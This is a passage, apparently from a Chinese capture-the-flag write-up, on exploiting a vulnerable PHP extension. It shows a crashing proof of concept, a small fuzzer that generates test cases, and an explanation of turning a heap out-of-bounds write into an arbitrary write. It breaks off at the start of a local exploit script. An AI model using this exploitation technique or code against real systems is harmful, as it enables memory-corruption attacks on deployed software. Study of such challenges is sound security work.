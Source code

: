 ![image](http://127.0.0.1:49715/assets/image-20250404132547-n39gf22.png)​

这个时候可以手工删减poc，以确定触发漏洞的输入：

```php
<?php
add_chunk(14, [0x5ac569df, 0x6c313c17, 591877129, 0x1fe65652, -944419699, -841403074, 154814687, 0xe98c4764, -864569255, 0xb719576e, 0xa73bb273, 0xd8f3896e, -902885394, 0x30dfbfa0], "U");
show_chunk(0);
```

这样就可以确定是排序导致的问题了，这个时候可以进一步针对这个数组序列构造fuzz：

```php
def generate_number():
    """生成随机整数（十进制或十六进制）"""
    return hex(random.getrandbits(32))

def generate_string():
    """生成随机PHP字符串"""
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
    return f'"{random.choices(chars, k=random.randint(5, 15))[0]}"'

def generate_php_code():
    """生成随机PHP测试用例"""
    code = ["<?php\n"]
    size = random.randint(1, 5)
    numbers = [generate_number() for _ in range(size)]  # 固定5个元素
    name = generate_string()
    code.append(f"add_chunk({size}, [{', '.join(numbers)}], {name});\n")
    code.append(f"show_chunk({0});\n")
```

这样跑起来就得到了很简单的poc：

```php
// Return code: -11
// Stderr: 
<?php
add_chunk(4, [0xcb949c35, 0x177c5522, 0xfec7b323, 0x726bb3bc], "i");
show_chunk(0);
```

会把size改大：

![image](http://127.0.0.1:49715/assets/image-20250404133728-irm7iaq.png)​

这样可以得到一个在php堆上的下溢任意地址写：

![image](http://127.0.0.1:49715/assets/image-20250404134112-cxyx8u9.png)​

思路也比较简单，就是第一次利用越界写修改下一个chunk的`name`​指针，再利用这个`name`​指针实现任意地址写。这里给出直接打本地的脚本，远程同理：

```php
<?php

$game_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
```